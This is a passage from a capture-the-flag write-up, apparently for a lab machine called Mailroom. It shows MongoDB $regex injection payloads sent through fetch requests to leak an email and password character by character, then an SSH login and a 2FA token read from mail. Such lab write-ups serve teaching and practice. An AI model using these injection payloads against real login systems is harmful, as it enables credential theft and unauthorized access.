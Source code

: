 This regex fails, so we know the 2nd letter is between n-z.

After some time, we finally get the full email:
`tristan@mailroom.htb`. 
Now we can do the same for passwords, but it's good to remember the characters might also be capitalized, numeric, or a special char. In this case, I start by setting the regex for all uppercase letters:

```js
fetch_req.send("email=tristan@mailroom.htb&password[$regex]=^{A-Z}.*");
```

The first letter is not an uppercase letter, and a second query shows it is neither a lowercase letter. Next we can check any single digit number:

```js
fetch_req.send("email=tristan@mailroom.htb&password[$regex]=^[0-9].*");
```

Eventually, we can leak the full password as well. Now we have credentials:

```
email=tristan@mailroom.htb&password=69trisRulez!
```

With this, we can access the machine through ssh:
```bash
$ ssh tristan@mailroom.htb            
The authenticity of host 'mailroom.htb (10.10.11.209)' can't be established.
ED25519 key fingerprint is SHA256:c4alO/6TY4cZRWE6/Mr+rsUQ3AXFKUZDWmSifHVp9pQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'mailroom.htb' (ED25519) to the list of known hosts.
tristan@mailroom.htb's password: 
<...SNIP...>
You have mail.
tristan@mailroom:~$
```

## Access as user tristan
### Enumerating the private webpage directly through port forwarding

The ssh banner also tells us we have mail, which is will be the 2FA notifications we have been sending during our mongoDB regex adventures.

```bash
tristan@mailroom:/var/mail$ cat tristan 
Return-Path: <noreply@mailroom.htb>
X-Original-To: tristan@mailroom.htb
Delivered-To: tristan@mailroom.htb
Received: from localhost (unknown [172.19.0.5])
        by mailroom.localdomain (Postfix) with SMTP id 14BBF1AEC
        for <tristan@mailroom.htb>; Sun,  16 Apr 2023 18:02:03 +0000 (UTC)
Subject: 2FA

Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=2a5bb5f3da937782b46ce69491f7c485
```
